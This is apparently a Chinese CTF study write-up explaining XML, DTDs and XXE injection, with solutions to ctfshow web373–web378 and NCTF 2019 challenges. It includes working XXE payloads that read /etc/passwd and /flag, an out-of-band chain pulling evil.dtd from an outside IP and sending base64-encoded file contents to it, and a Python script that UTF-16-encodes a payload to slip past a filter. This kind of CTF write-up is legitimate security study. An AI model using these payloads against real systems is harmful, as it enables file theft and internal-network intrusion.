




# XML

## 简介

XML （extensible markup language）意思是“可扩展标记语言”。XML是一种用于存储和传输数据的语言。与HTML一样，XML使用标签和数据的树状结构。与HTML不同，XML不使用预定义的标记，因此可以为标记指定描述数据的名称。在早期 Web 时代，XML作为一种数据传输格式（ `AJAX` 中的 `X` 代表的就是 `XML` ）很流行。但它的受欢迎程度现在已经下降，转而支持JSON格式。

(更详细的介绍可以在参考链接中找找，师傅们写的都很齐全了，稍微读读了解基础知识就好了)

## 组成

示例



XML的文档结构包含以下几种

```
1、XML声明
//示例: <?xml version="1.0" encoding="UTF-8"?>
2、DTD文档类型定义（可选）:DTD文档类型定义是一套为了进行程序见的数据交换而建立的关于标记符的语法规则
3、文档元素
```

XML的构建模块模块组成与HTML类似，由下面几种组成

```
元素:XML文档的主要构建模块，可包含文本内容
//示例: <username>quan9i</username>
属性:提供元素的额外信息
//示例:  src就是属性
实体:实体是用来定义普通文本的变量。实体引用是对实体的引用。
PCDATA(parsed character data):被解析的字符数据
ps:PCDATA 是会被解析器解析的文本。这些文本将被解析器检查实体以及标记。
CDATA(character data):字符数据
ps:CDATA 是不会被解析器解析的文本。
```

## 作用

前面说了，逐渐被**json**取代，那显然它的作用就是和**json**类似用于传输数据

> 现实生活中一些数据之间往往存在一定的关系。我们希望能在计算机中保存和处理这些数据的同时能够保存和处理他们之间的关系。XML就是为了解决这样的需求而产生数据存储格式。

## 语法规则

```
1、所有 XML 元素都须有关闭标签。
2、XML 标签对大小写敏感。
3、XML 必须正确地嵌套。
4、XML 文档必须有根元素。
5、XML 的属性值须加引号。
6、实体引用:在标签属性，以及对应的位置值可能会出现<>符号，但是这些符号在对应的XML中都是有特殊含义的，这时候我们必须使用对应的HTML实体来表示，
//示例:<符号对应的实体就是&lt;
7、在XML中，空格会被保留
//示例:<p>aa空格bb</p>，这个空格会被保留
```

etc

```
<?xml version="1.0" encoding="UTF-8"?> <!--xml文件的声明-->
<tttang>                               <!--根元素-->
<article category="CTF">               <!--tttang的子元素，category为属性-->
<title>XXE</title>                     <!--article的子元素-->
<author>xlccccc</author>                <!--article的子元素-->
<year>2022</year>                      <!--article的子元素-->
<data>12.25</data>                      <!--article的子元素-->
</article>                             <!--article的结束-->
</tttang>                              <!--tttang的结束-->
```

## DTD

文档类型定义（DTD）可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构，约束了xml文档的结构。DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。
因为它既可以在内部引用，也可以在外部引用，这就造成了他有三种利用方式:`内部引用`，`外部引用`以及`内+外引用`

### 内部引用

格式

```xml-dtd
<!DOCTYPE 根元素[定义内容]>
```

etc

```xml-dtd
<?xml version="1.0"?> <!--XML声明 -->
<!DOCTYPE note [ <!--定义了note元素-->
  <!ELEMENT note (to,from,heading,body)> <!--定义note元素下的四个元素-->
  <!ELEMENT to      (#PCDATA)> <!--定义了note的子元素to，(#PCDATA)表示元素to是字符串形式-->
  <!ELEMENT from    (#PCDATA)> <!--定义了note的子元素from，(#PCDATA)表示元素from是字符串形式-->
  <!ELEMENT heading (#PCDATA)> <!--定义了note的子元素heading，(#PCDATA)表示元素heading是字符串形式-->
  <!ELEMENT body    (#PCDATA)> <!--定义了note的子元素body，(#PCDATA)表示元素body是字符串形式-->
]>
<!-- 至此，上方是DTD文档定义-->
<note>
  <to>xlccccc</to>
  <from>is</from>
  <heading>a</heading>
  <body>weber!</body>
</note>
```

### 外部引用

格式

```xml-dtd
<!DOCTYPE 根元素 SYSTEM "DTD文件路径">
```

示例：

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
<to>xlccccc</to>
<from>is</from>
<heading>a</heading>
<body>weber!</body>
</note>
```

note.dtd文件的内容如下

```xml-dtd
<!DOCTYPE note [
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to      (#PCDATA)>              
<!ELEMENT from    (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body    (#PCDATA)>
]>
```

### 内+外

DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用。
也就是说，在DTD中的实体类型中，一般分为：内部实体和外部实体。
实体细分又分为一般实体和参数实体。

```xml-dtd
 一般实体：
 定义:<!ENTITY 实体名称 "实体内容">
 调用:&实体名称;

 参数实体:
 定义:<!ENTITY % 实体名 "实体内容”>
 调用:%实体名称;
```

内部

格式

```xml-dtd
<!ENTITY 实体名称 "实体的值">
```

示例

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE test[
    <!ENTITY article "XXE">
    <!ENTITY author "xlccccc">
]>
<test><article>&article;</article><author>&author;</author></test>
```

外部

格式

```xml-dtd
<!ENTITY 实体名称 SYSTEM "URI/URL">
或者
<!ENTITY 实体名称 PUBLIC "public_ID" "URI">
```

示例

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE test[
    <!ENTITY author SYSTEM "xlccccc.xml">
]>
<test>&author;</test>
```

外部实体同时还支持http等协议，具体如下图



PHP在安装扩展以后还能支持的协议：



# XXE

全名 **XML External Entity Injection**，即xml外部实体注入漏洞

## 成因

应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件

## 危害

文件读取
命令执行
内网端口扫描
攻击内网网站
ddos等

## 利用姿势

### 有回显

最简单的读取文件

```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

下面先分好类，在做题过程中不断补充

### 无回显

ctfshow的几种姿势已在下面

# 参考链接

[XML外部实体注入（XXE）攻击方式汇总](https://tttang.com/archive/1813/)

[浅析XML外部实体注入](https://tttang.com/archive/1716/)

[一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357#toc-8)

# ctfshow-xxe

## web373

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 13:36:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();//初始化XML解析器
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);//加载客户端输入的XML内容
    $creds = simplexml_import_dom($dom);//获取XML文档节点，如果成功则返回SimpleXMLElement对象，如果失败则返回FALSE
    $ctfshow = $creds->ctfshow;//获取SimpleXMLElement对象中的节点ctfshow
    echo $ctfshow;
}
highlight_file(__FILE__);    

```

那就是引入外部实体读取**flag**，利用对**ctfshow**节点的输出来得到**flag**

```xml-dtd
<!DOCTYPE getflag [<!ENTITY example SYSTEM "file:///flag"> ]>
<xlccccc>
	<ctfshow>
		&example;
	</ctfshow>
</xlccccc>
```

套一层<xlccccc></xlccccc>是因为要先有根节点才能有接下来的节点

## web374

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 13:36:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);   
```

没有回显了

> 思路
>
> 利用php伪协议读取flag的值
>
> 外部引用服务器上的dtd文件来访问开启的端口，并将得到的flag作为参数

靶机POST

```xml-dtd
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % remote SYSTEM "http://1.15.107.150:7778/evil.dtd">
%remote;
]>
<root>123</root>
```

服务器dtd

```dtd
<!ENTITY % send "<!ENTITY &#x25; xxe  SYSTEM 'http://1.15.107.150:3296/%file;'> ">
%send;
%xxe;
```

开启端口3296



反弹得到flag

这一步可以访问外网，换个思路，也可以打**ssrf**

### 调用过程

**remote**先调用访问到远程服务器上的**evil.dtd**，然后调用**send**，发送http请求到**3296**端口，再调用**file**来将得到的flag填充进http请求

## web375-web376

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 15:22:05
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"/', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

这个过滤毫无影响捏

后面的都可以用这个**payload**打通

## web377

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 15:26:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    

```

过滤了**http**

yu师傅是改编码通的，这样也行😮(那过滤还有卵用)

```python
import requests

url = 'http://d8fe9822-1d64-45a4-b284-dbc3b1deb1ad.challenge.ctf.show/'
payload = """<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % aaa SYSTEM "http://1.15.107.150:7778/evil.dtd">
%aaa;
]>
<root>123</root>"""
payload = payload.encode('utf-16')
requests.post(url ,data=payload)
```


## web378

```javascript
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

以xml形式传数据，并且会将**username**打印出来

```xml-dtd
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<user><username>&xxe;</username><password>&xxe;</password></user>
```

# 例题

## [NCTF 2019]True XML cookbook

与ctfshow web378类似

但**NSSCTF**是有内网，ssrf访问内网就可以了(NSS也是根目录看flag就可以了

**buuctf**直接根目录看flag即可

差点以为自己陷入平行宇宙了。。。

**[NCTF 2019]Fake XML cookbook**是根目录直接看flag，这题是要打内网的，但是环境好像都没开内网了
